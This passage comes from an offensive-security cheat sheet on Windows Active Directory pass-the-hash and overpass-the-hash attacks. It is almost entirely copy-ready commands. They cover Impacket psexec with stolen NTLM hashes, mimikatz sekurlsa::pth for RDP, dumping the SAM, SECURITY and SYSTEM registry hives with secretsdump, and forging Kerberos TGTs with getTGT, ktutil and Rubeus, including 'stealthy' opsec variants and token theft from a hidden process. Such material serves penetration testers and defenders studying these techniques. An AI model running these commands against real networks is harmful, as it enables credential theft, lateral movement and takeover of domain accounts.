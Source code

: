 - Impacket suite
    
    ```powershell
    proxychains python ./psexec.py jarrieta@10.2.0.2 -hashes :489a04c09a5debbc9b975356693e179d
    ```
    
- Windows RDP and mimikatz
    
    ```powershell
    sekurlsa::pth /user:Administrator /domain:contoso.local /ntlm:b73fdfe10e87b4ca5c0d957f81de6863
    sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the users ntlm hash> /run:"mstsc.exe /restrictedadmin"
    ```
    

You can extract the local **SAM database** to find the local administrator hash :

```powershell
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

## OverPass-the-Hash (pass the key)

In this technique, instead of passing the hash directly, we use the NT hash of an account to request a valid Kerberost ticket (TGT).

### Using impacket

```bash
root@kali:~$ python ./getTGT.py -hashes ":1a59bd44fe5bec39c44c8cd3524dee" lab.ropnop.com
root@kali:~$ export KRB5CCNAME="/root/impacket-examples/velociraptor.ccache"
root@kali:~$ python3 psexec.py "jurassic.park/velociraptor@labwws02.jurassic.park" -k -no-pass

# also with the AES Key if you have it
root@kali:~$ ./getTGT.py -aesKey xxxxxxxxxxxxxxkeyaesxxxxxxxxxxxxxxxx lab.ropnop.com

root@kali:~$ ktutil -k ~/mykeys add -p tgwynn@LAB.ROPNOP.COM -e arcfour-hma-md5 -w 1a59bd44fe5bec39c44c8cd3524dee --hex -V 5
root@kali:~$ kinit -t ~/mykers tgwynn@LAB.ROPNOP.COM
root@kali:~$ klist
```

### Using Rubeus

```powershell
# Request a TGT as the target user and pass it into the current session
# NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt

# More stealthy variant, but requires the AES256 hash
.\Rubeus.exe asktgt /user:Administrator /aes256:[AES256HASH] /opsec /ptt

# Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
.\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
```
